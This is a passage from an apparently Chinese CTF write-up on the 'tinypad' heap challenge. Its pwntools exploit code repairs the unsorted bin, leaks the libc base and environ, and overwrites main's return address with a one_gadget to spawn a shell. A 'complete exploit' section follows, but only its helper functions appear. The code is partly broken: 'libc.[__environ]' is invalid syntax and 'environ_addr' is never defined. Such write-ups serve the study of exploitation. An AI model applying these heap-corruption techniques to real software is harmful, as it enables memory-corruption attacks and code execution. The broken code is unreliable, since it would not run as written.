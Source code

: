 ```
edit(4, "D"*0x20 + p64(0) + p64(0x101) + p64(main_arena + 0x58)*2) #修复unsorted bin
```
![](./08.png)

**3.攻击**

> &nbsp;&nbsp;&nbsp;&nbsp;将`main`函数的返回值地址修改为`one_gadget`地址
> 由于程序是现将`size`和`s`先存放入数组, 后读取内容,　我们可以控制`index`1指向的地址.

```python

libc_base = main_arena + 0x58 - 0x3c4b78
one_gadget = libc_base + 0x45216
environ_pointer = libc_base + libc.[__environ]
log.info("libc_base: %s" % hex(libc_base))

add(0xf8, "D"*(0x100-0x30) + p64(0x18) + p64(environ_pointer) + 'a'*8 + p64(0x602148))
'''
申请的大小必须为0xf8或0xf0, 要不然不会返回tinypad的地址.
'''
p.recvuntil(" #   INDEX: 1\n")
p.recvuntil(" # CONTENT: ")
main_ret = u64(p.recvline().rstrip().ljust(8, "\x00")) - 0x8*30
log.info("environ_addr: %s" % hex(environ_addr))
edit(2, p64(main_ret)) #修改为environ
edit(1, p64(one_gadget))  #
p.interactive()
```
### 完整EXP
```python
from pwn import *

p = process("./tinypad")
libc = ELF("./libc.so.6")
context.log_level = 'debug'


def add(size, content):
    p.recvuntil("(CMD)>>> ")
    p.sendline("A")
    p.recvuntil("(SIZE)>>> ")
    p.sendline(str(size))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)

def delete(index):

    p.recvuntil("(CMD)>>> ")
    p.sendline("D")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))

def edit(index, content, ok=True):
    p.recvuntil("(CMD)>>> ")
    p.sendline("E")
    p.recvuntil("(INDEX)>>> ")
    p.sendline(str(index))
    p.recvuntil("(CONTENT)>>> ")
    p.sendline(content)
    p.recvuntil("(Y/n)>>> ")
    if ok:
        p.sendline("Y")
    else:
        p.sendline("n")
```